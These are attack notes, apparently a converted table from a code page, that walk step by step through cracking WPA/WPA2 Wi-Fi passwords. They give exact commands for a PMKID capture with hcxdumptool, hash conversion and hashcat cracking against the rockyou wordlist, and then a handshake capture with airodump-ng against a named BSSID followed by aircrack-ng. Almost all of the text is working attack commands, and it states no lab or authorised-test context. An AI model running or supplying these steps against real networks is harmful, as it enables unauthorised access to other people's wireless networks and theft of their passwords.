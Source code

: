+------------------+---------------------------------------------------+
| ### Sc           | Use the built in NetworkManager CLI to detect     |
| an the network f | local access points:                              |
| or access points |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | nmcli -p dev wifi list                            |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | -p - organizes the output                         |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | dev - Specifies what device to select             |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | wifi - Specifies the wireless interface           |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | list - Lists the available access points          |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | Once the desired access point has been selected   |
|                  | log the network information for future use.       |
|                  |                                                   |
|                  |                                                   |
+==================+===================================================+
| ### Kill inter   | Check to see if any processes are interfering     |
| fering processes | with monitor mode:                                |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | sudo airmon-ng check kill                         |
|                  |                                                   |
|                  |                                                   |
+------------------+---------------------------------------------------+
| ### Cap          | Download and use hcxdumptool to extract the PMKID |
| turing the PMKID | from the AP. Fill in the AP\'s mac address in the |
|                  | filter list flag:\                                |
|                  | \                                                 |
|                  | sudo hcxdumptool -i wlan0 -o outcapture           |
|                  | \--enable_status=1                                |
|                  | \--filterlist_ap=\*\*.\*\*.\*\*.\*\*.\*\*.\*\*    |
|                  | \--filtermode=2 -c \*\                            |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | -i - Specifies the interface to use\              |
|                  |                                                   |
|                  |                                                   |
|                  | -o - Points to the output capture file            |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | \--enable_status=1 - Captures EAPOL frames to     |
|                  | capture the PMKID.                                |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | \--filterlist_ap - The BSSID for the AP           |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | \--filtermode=2 - Filter mode 2 only scans the    |
|                  | specified BSSID\                                  |
|                  |                                                   |
|                  |                                                   |
|                  | -c- The routers channel is set\                   |
|                  |                                                   |
+------------------+---------------------------------------------------+
| Converting the   | Use hcxpcapngtool to convert the capture file to  |
| PMKID capture    | a hash:\                                          |
| file to a hash   | \                                                 |
| format           | hcxpcapngtool -o hash.txt outcapture              |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | -o - Points to the output hash file               |
+------------------+---------------------------------------------------+
| Cracking the     | Use hashcat to crack the hash to obtain the       |
| hash             | password:\                                        |
|                  | \                                                 |
|                  | sudo hashcat -m 22000 hash.txt -a 0 -o            |
|                  | password.txt /usr/share/wordlists/rockyou.txt\    |
|                  | \                                                 |
|                  |                                                   |
|                  |                                                   |
|                  | -m - References the hash type (22000 is PMKID     |
|                  | EAPOL)                                            |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | -a - References attack mode                       |
|                  |                                                   |
|                  |                                                   |
|                  |                                                   |
|                  | -o - Points to the output text file\              |
|                  |                                                   |
+------------------+---------------------------------------------------+
| Looking at the   | sudo cat password.txt                             |
| password         |                                                   |
+------------------+---------------------------------------------------+

## 

 

Wpa2 Attack notes:

 

**Airodump-ng wlan0mon (Scan for networks)**

Explanation: This command initiates a wireless network scan to find
available networks. Airodump-ng is the tool used for packet capturing in
aircrack-ng suite, and wlan0mon is the monitor mode interface.

**Airodump-ng wlan0mon -w name.cap ---bssid 28:80:88:3C:23:C2 -c 10**

Explanation: This command is more specific and captures packets from a
targeted network. wlan0mon is again the monitor mode interface. The -w
name.cap specifies the file where the captured packets will be stored.
---bssid 28:80:88:3C:23:C2 targets a specific network with the given
BSSID (the MAC address of the Wi-Fi router). -c 10 indicates that the
tool should focus on channel 10.

Check on Wireshark to verify 4-way handshake

Explanation: This isn\'t a command per se but a step in the process.
After capturing the packets, you can open the .cap file in Wireshark to
inspect the packets. You are looking for EAPOL frames that indicate a
4-way handshake has occurred. This is essential for verifying that you
have the information needed for the next cracking step.

**Aircrack-ng name.cap**

Explanation: This command uses the aircrack-ng tool to attempt to crack
the captured WPA/WPA2 handshake. name.cap is the file where the captured
packets are stored. The tool will perform a brute-force or dictionary
attack to try and discover the Pre-Shared Key (PSK) for the network.
